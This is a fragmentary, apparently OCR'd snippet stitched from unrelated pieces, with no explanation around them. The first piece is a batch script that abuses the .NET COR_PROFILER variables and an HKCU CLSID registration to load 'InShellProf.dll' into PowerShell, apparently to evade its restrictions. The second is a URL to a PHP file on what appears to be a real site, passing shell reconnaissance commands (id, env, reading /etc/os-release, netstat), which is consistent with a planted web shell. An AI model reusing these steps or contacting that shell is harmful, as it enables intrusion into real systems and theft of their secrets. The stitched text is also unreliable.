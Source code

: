 set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InShellProf.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f


view-source:https://kotaklifebrandstore.com/bulk/public/content/profile/676cecdb81c46.php?cmd=id;echo;cat%20/etc/os-release;echo;uname%20-a;env;echo;netstat%20-tuln;echo;
